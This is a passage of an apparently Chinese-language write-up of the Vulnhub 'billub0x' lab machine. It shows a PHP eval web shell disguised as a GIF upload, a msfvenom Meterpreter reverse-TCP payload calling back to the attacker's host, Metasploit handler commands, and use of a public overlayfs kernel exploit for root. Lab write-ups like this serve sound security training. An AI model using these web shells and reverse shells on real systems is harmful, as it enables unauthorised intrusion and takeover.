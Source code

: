 接下来找个地方上传一个包含php代码的文件即可。
登录之后，在添加用户`Add User`的地方正好有个上传图片文件的地方。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-7.png)

创建一个`mengchen.gif`文件，内容如下
```
GIF89a<?php @eval($_POST['cmd']);?>
```
直接上传文件，根据`panel.php`中第76行代码：
```
move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name'])
```
上传的文件在`uploaded_images`中，直接访问`http://192.168.134.130/uploaded_images/`就能看到

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-8.png)

这样就可以借助本地文件包含漏洞来执行shell了。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-9.png)

现在我是`www-data`权限。但是使用数据包很不方便，使用`msfvenom`生成一个WebShell：
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.134.132 LPORT=23456 -f raw > mengchen3.php
```
然后将WebShell打开，前面加上`GIF89a`，并且将扩展名改为gif并上传。

在Kali上,打开`metasploit`，执行如下命令：
```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 192.168.134.132 
set LPORT 23456
exploit
```
然后使用burp发包，执行上传的WebShell。成功的返回了一个`Meterpreter`。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-10.png)

创建一个shell，执行`uname -a`查看一下内核版本。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-11.png)

因为我现在只是`www-data`用户权限，需要找一下内核漏洞来进行提权。

[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292/)

将代码保存到kali上，`exploit.c`。接着使用Meterpreter的upload命令，将exp上传到靶机的tmp目录下，使用gcc编译执行，成功获取到了root权限。

![](http://osn75zd5c.bkt.clouddn.com/Vulnhub-billub0x-Writeup-12.png)


